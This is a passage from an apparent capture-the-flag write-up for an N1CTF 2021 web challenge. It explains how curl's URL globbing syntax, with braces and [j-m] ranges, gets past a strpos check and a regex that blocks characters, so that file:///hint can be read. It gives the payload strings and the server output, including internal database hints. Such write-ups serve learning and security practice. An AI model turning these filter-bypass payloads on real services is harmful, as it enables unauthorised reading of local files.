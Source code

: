 ```php 
}

```

After testing for 30 minutes, My teammate [@CurseRed](https://twitter.com/CurseRed) brought me some ideas to bypass the method.

If you look at the topmost of the curl's official manpage (https://curl.se/docs/manpage.html), we see something like the following.

```
The URL syntax is protocol-dependent. You find a detailed description in RFC 3986.

You can specify multiple URLs or parts of URLs by writing part sets within braces and quoting the URL as in:

  "http://site.{one,two,three}.com"
or you can get sequences of alphanumeric series by using [] as in:

  "ftp://ftp.example.com/file[1-100].txt"
  "ftp://ftp.example.com/file[001-100].txt"    (with leading zeros)
  "ftp://ftp.example.com/file[a-z].txt"
Nested sequences are not supported, but you can use several ones next to each other:

  "http://example.com/archive[1996-1999]/vol[1-4]/part{a,b,c}.html"
```

Here, my teammate suggested a method to bypass the strpos check at the bottom of the source code by sending like the following parameter.

```
url={http://127.0.0.1/,08b788c8-c7f4-885d-d4d0-78f89fb8c766}
```

The problem he had was that we wanted to load `file:///hint`, but the character `l` was blocked by the regex check.

<img src=//harold.kim/static/blog/n1ctf-web-5.png>

Looking back at the curl's official documentation, I found that we can still utilize `[a-z]` and bypass the character check easily.

For example, `fi[j-m]e:///{hint.txt,47ac392a-46d9-522d-b854-1af5fb248eba}` will eventually load all URLs from the following locations.

* `fije:///hint.txt`
* `fije:///{uuid}`
* `file:///hint.txt`
* `file:///{uuid}`
* `fime:///hint.txt`
* `fime:///{uuid}`

```
47ac392a-46d9-522d-b854-1af5fb248eba</br>
your command: /usr/bin/curl 'fi[j-m]e:///{hint.txt,47ac392a-46d9-522d-b854-1af5fb248eba}' --output - -m 3 --connect-timeout 3</br>
--_curl_--fije:///hint.txt
--_curl_--fije:///47ac392a-46d9-522d-b854-1af5fb248eba
--_curl_--fike:///hint.txt
--_curl_--fike:///47ac392a-46d9-522d-b854-1af5fb248eba
--_curl_--file:///hint.txt
mssql_host：10.11.22.9
mssql_port：1433
mssql_username：sa
mssql_password in /password.txt
flag in HKEY_LOCAL_MACHINE\SOFTWARE\N1CTF2021
--_curl_--file:///47ac392a-46d9-522d-b854-1af5fb248eba
--_curl_--fime:///hint.txt
```